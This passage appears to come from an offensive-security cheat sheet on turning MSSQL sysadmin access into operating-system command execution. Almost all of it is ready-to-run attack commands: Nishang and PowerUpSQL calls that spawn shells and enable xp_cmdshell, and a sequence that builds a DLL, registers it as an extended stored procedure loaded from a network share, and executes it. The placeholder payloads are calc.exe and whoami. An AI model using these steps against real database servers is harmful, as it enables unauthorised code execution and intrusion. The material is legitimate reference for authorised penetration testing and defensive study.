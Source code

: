 	If no payload is specified it is possible to spawn a shell (powershell, cmd or mssql):
	
	```powershell
	# Nishang
	Execute-Command-MSSQL -UserName 'sa' -Password 'Password1' -ComputerName "SQLServer1"
	```

- `PowerUpSQL`:

	Automatically enable xp_cmdshell and execute the command:

	```powershell
	# PowerUpSQL
	Invoke-SQLOSCmd -Username "sa" -Password "Password1" -Instance "SQLServer1" -Command "whoami"
	```

	If you want to use windows authentication do not user username parameter but launch a Powershell session as the desired user.

#### Sysadmin to OS Service Account - Command Execution with extended stored procedures

- `PowerUpSQL`:
	```powershell
	# PowerUpSQL

	# Create the DLL with desired commands
	Create-SQLFileXpDll -OutFile "C:\fileserver\xp_calc.dll"  -Command "calc.exe" -ExportName "xp_calc"

	# Add the DLL as a stored procedure
	Get-SQLQuery -UserName "sa" -Password "Password1" -Instance "SQLServer1" -Query "sp_addextendedproc 'xp_calc', '\\192.168.15.2\fileserver\xp_calc.dll'"

	# List existing Extended stored procedures
	Get-SQLStoredProcedureXP -UserName "sa" -Password "Password1" -Instance "SQLServer1" -Verbose

	# Execute the stored procedure
	Get-SQLQuery -UserName "sa" -Password "Password1" -Instance "SQLServer1" -Query "EXEC xp_calc"
	```

- `HeidiSQL`:

	```sql
	-- HeidiSQL

	-- sp_addextendedproc can be used to register the stored procedure. Note that the function name in the DLL and the command must exactly be the same (case-sensitive)
	sp_addextendedproc 'xp_calc', 'C:\mydll\xp_calc.dll'
